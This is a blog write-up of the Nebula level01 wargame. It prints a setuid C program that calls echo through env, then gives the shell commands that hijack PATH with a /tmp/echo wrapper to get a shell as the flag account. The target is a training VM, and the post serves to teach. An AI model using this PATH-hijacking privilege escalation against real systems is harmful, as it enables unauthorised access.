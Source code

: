 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 01"
date: "2011-12-02T06:18:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from my previous post, I started tinkering with the next Nebula wargame: [Nebula 01](http://exploit-exercises.com/nebula/level01). This one gives you some C code, which has a bug in it. You have to exploit that bug.

<!-- more -->

```
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

If you read through the code, you may notice that it's calling "echo" with some text appended, to echo it to the screen. How it's being called, it is loading the path to "echo" from the environment settings. It'll read what's in the path. To exploit this, all we have to do is modify the path.

```
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ export PATH
level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now, if "echo" is called, it'll look in /tmp first. So let's start tinkering. My first thought was to just make a symbolic link to /bin/bash, to get me a shell.

```
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo
level01@nebula:/home/flag01$ ./flag01
echo: and: No such file or directory
```

However, that didn't work, because it was essentially calling bash with the parameters of "and now what?". To get around that, I figured I'd wrap it in a bash script, which just ignored any parameters. I deleted the /tmp/echo file I created, and tried over.

```
level01@nebula:/home/flag01$ rm /tmp/echo
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo2
level01@nebula:/home/flag01$ echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo;chmod +x /tmp/echo
level01@nebula:/home/flag01$ ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

This time it was successful, so I again, ran "getflag".  Now I have another level complete.
